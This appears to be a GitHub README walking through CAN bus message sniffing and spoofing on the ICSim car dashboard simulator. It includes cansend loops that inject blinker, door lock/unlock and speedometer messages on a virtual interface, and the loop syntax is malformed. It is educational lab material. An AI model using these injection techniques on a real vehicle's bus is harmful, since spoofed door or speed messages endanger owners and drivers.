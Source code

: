 # Car_CAN-Hacking
!!! DISLAIMER - THIS PROJECT IS NOT INTENDED TO BE USED IN A BAD WAY AND IS INTENDED ONLY FOR EDUCATIONAL PURPOSES I NEITHER CONDONE NOR TAKE RESPONSIBILITY FOR SOMEONE
ELSE'S ACTIONS !!!

PREVIEW - ICSim is a simulator of how an actual car computer would work with visuals of a speedometer, blinkers and locked/unlocked doors, which is later on in the
file said as a dashboard

!!! Every command is done in a terminal and would probably need sudo privileges - sudo su !!!

1. Install ICSim

  [Clones the ICSim directory from github into an ICSim directory on your machine]
  - git clone https://github.com/zombieCraig/ICSim
  
2. Setup ICSim 

  [Changes the active directory of the terminal to ICSim's directory]
  - cd ICSim 
  
  [Runs the ICSim setup file]
  - ./setup_vcan.sh
  
3. Run ICSim
  
  [Runs the visual represantation of a car's dashboard with the interface for CAN communacation - vcan0]
  - ./icsim vcan0 (done in one terminal)
  
  [Runs the controls window which would need to be active(selected) in order to control the car using the same interface - vcan0]
  - ./controls vcan0 (done in a second terminal)
  
4. Run cansniffer
  
  [cansniffer is a tool used to sniff CAN packets]
  
  [Runs the cansniffer using the -c tag to helf identify changing data and using the same interface - vcan0]
  - cansniffer –c vcan0 (done in a third terminal)
  
5. Play around with the controls and try to spot what action corresponds to what ID in the cansniffer and how the data changes

6. I see that ID 188 corresponds to the blinkers with left blinker having the data - #010000 and the right blinker having the data - #020000
   	Write a bash script in the linux cmd to make hazard lights (couldn't manage to take a screenshot with both lights on) -
  
		while true do cansend vcan0 188#010000 cansend vcan0 188#020000 done
    
![314419579_1745801909127820_5795919229665972963_n](https://user-images.githubusercontent.com/109030111/201494211-9c4eac66-79f8-4b52-9c28-1ae59e2c5f35.png)

7. I see that ID 19B corresponds to the doors with open doors having the data - #000000 and closed door having the data - #00000F 
   	Write a bash script in the linux cmd to lock and unlock the doors  
   
		while true do cansend vcan0 19B#00000F cansend vcan0 19B#000000 done
		
![314437872_661565698651571_7419970977940910151_n](https://user-images.githubusercontent.com/109030111/201494544-220d8860-2044-41ca-8fd4-f79a956f5180.png)

8. And finally I see that ID 244 corresponds to the speedometer with the speed of 95 having the data - #0000003894
	Write a bash script in the linux cmd to keep the speed at 95 

		while true do cansend vcan0 244#0000003894 done
   
![314445943_1172877640014528_1613940322642097491_n](https://user-images.githubusercontent.com/109030111/201494627-95e13746-8fce-4d2b-b71f-b69beede9c0a.png)

That pretty much wraps up my little CAN-sniffing adventure thank you for reading it and I hope you find it helpful!
